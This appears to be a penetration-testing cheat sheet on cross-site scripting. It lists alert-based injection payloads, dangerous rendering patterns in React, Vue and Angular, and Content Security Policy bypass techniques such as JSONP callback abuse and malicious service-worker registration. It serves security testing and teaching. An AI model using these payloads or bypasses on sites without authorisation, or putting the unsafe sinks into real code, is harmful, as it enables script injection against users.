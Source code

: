### **Traditional XSS Testing**
- **Step 1: Test User Input**: Inject payloads like `<script>alert('XSS')</script>`.
- **Step 2: Test Stored vs. Reflected XSS**

### **🆕 Modern Frontend Framework XSS**

#### **React XSS Vectors**:
```jsx
// dangerouslySetInnerHTML bypass
const userInput = '<img src=x onerror=alert("XSS")>';
<div dangerouslySetInnerHTML={{__html: userInput}} />

// href attribute XSS
<a href={`javascript:alert('XSS')`}>Click</a>
<a href={userInput}>Click</a> // if userInput = "javascript:alert('XSS')"

// Server-side rendering XSS
const html = `<div>${userInput}</div>`; // Not escaped on server
```

#### **Vue.js XSS Vectors**:
```vue
<!-- v-html directive XSS -->
<div v-html="userInput"></div>

<!-- Dynamic component XSS -->
<component :is="userControlledComponent"></component>

<!-- Attribute binding XSS -->
<a :href="userInput">Link</a>
```

#### **Angular XSS Vectors**:
```typescript
// bypassSecurityTrust methods
import { DomSanitizer } from '@angular/platform-browser';

constructor(private sanitizer: DomSanitizer) {}

// Dangerous if userInput not validated
this.sanitizer.bypassSecurityTrustHtml(userInput);
this.sanitizer.bypassSecurityTrustScript(userInput);
this.sanitizer.bypassSecurityTrustUrl(userInput);
```

```html
<!-- Angular template XSS -->
<div [innerHTML]="userInput"></div>
<iframe [src]="userInput"></iframe>
```

### **🆕 Content Security Policy (CSP) Bypass**:
```javascript
// CSP bypass techniques
// 1. JSONP endpoint abuse
<script src="https://trusted-domain.com/jsonp?callback=alert"></script>

// 2. Angular/React development endpoints
<script src="https://trusted-domain.com/__webpack_hmr"></script>

// 3. File upload XSS with CSP bypass
// Upload JavaScript file to trusted domain, then include it

// 4. Service Worker registration
navigator.serviceWorker.register('/uploads/malicious-sw.js');
```